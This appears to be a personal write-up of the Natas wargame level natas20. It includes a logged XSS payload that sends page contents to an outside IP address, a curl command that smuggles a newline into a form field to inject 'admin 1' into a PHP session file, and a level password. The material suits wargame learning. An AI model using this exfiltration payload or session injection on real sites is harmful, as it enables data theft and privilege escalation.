 Funky buffering issues with Python and the subprocess module.  When I want to pipe the whole program
input out to `tee` the python program's input hangs for like 60s before being emitted at once.  And 
that's with `python -u` for what I thought was unbuffered input.  Too many pipes?

### natas20: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

This looks like reading through a bunch of PHP, which means I'm done for tonight.
Looks like you're trying to get it to read from an existing file which has admin=1 set. 
Not sure where those session ids come from, it seems like you need to be able to influence 
that to start reading from the filesystem.

Nope, looks like XSS. Chrome has (helpfully?) blocked this XSS attempt. Which is cool, but not
exactly what I want right now. First thought is to add a script that sends document.cookie off to
a webserver I've set up somewhere else so I can hijack other people's sessions. Hopefully an 
admin would do that and I could log in as them and see the password for the next level. But that'd
need some kind of background job pulling the page as an admin regularly, and I'd need to set up
a webserver somewhere to harvest the session identifiers.

And it looks like the HttpOnly parameter is set on the cookie, so I can't get at it with Javascript.
But I guess if the admin is logged in, the Password is displayed on the page, so I guess I could 
have the document.innerHTML sent off somewhere. Again, though, there would have to be a background
job running pulling down the admin page all the time.

I got it to the point where the XSS is sending the page content off to a webserver of my choice.
But the admin needs to view this page to get it to work. I think my approach is off. There needs to
be some report that the admin will run to view everyone's names.  You'd need to get the admin to
read the file using your session, which I guess you could do by mailing them a link with PHPSESSID
set in the GET parameters.

```
[08/Apr/2019 22:43:09] "GET /?poop=%0A%3Ch1%3Enatas20%3C/h1%3E%0A%3Cdiv%20id%3D%22content%22%3E%0AYou%20are%20logged%20in%20as%20a%20regular%20user.%20Login%20as%20an%20admin%20to%20retrieve%20credentials%20for%20natas21.%0A%3Cform%20action%3D%22index.php%22%20method%3D%22POST%22%3E%0AYour%20name%3A%20%3Cinput%20name%3D%22name%22%20value%3D%22%22%3E%3Cscript%3Enew%20Image%28%29.src%3D%22http%3A//35.229.49.155%3Fpoop%3D%22%20+%20escape%28document.body.innerHTML%29%3B%3C/script%3E%3C/form%3E%3C/div%3E/ HTTP/1.1" 200 -
```

Alos, It doesn't seem right that I should try enumerating a ton of sessions.  The session names are 
generated with `session_start()` and they change like crazy, so there would be too many.

I wonder if the problem is with that serialization algorithm, and being able to break out of
the session storage and read `/etc/natas_webpass/*` and start pulling out passwords that way.
Trying to send a new `PHPSESSID=abc` means you read from `/var/lib/php5/sessions/mysess_abc`.  It
masks out any non alnum chars or dash. So it doesn't look like you can read or write from any 
location on the filesystem, which is what we want.

Ahem, after a quick look at someone else's thoughts on the matter, it looks like that session
algorithm is the way to go. The key is hiding extra information inside the session file, namely
the admin=1 parameter.  So if you can hide a newline in the name parameter, you can sneak a second
key into that session dictionary that'll get read out the next time the page gets loaded.

```
$ curl --basic -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF natas20.natas.labs.over/index.php?debug=yes --cookie PHPSESSID=p1dvr1e7vhirhmfsiehp59tg67 -F $'name=abc123\nadmin 1' -v
```
